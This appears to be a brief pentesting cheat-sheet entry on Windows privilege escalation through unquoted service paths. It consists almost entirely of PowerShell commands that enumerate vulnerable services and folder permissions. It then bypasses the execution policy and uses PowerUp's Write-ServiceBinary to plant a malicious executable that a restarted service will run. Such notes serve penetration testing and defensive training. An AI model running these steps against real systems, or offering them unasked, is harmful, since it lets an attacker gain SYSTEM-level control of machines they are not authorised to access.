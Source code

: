```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName # Find some unquoted services 
```

```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """ # List services that are potentially vulnerable
```

```powershell
Start-Service $SERVICE_NAME # Check if I can start service
Stop-Service $SERVICE_NAME # Check if I can start service
Restart-Service $SERVICE_NAME # Check if I can restart service
```

```powershell
icacls "C:\" # Check access rights
icacls "C:\Program Files" # Check access rights
```

Add the malicious `.exe` (`Current.exe`) in the unquoted folder and start the service (that will run `Current.exe` file).
For example: https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae

```powershell
powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService # PowerUp.ps1 module
Write-ServiceBinary -Name $SERVICE_NAME -Path "C:\Program Files\Development.exe"
Restart-Service $SERVICE_NAME
```

For example:
![](Images/Pasted%20image%2020250206174214.png)







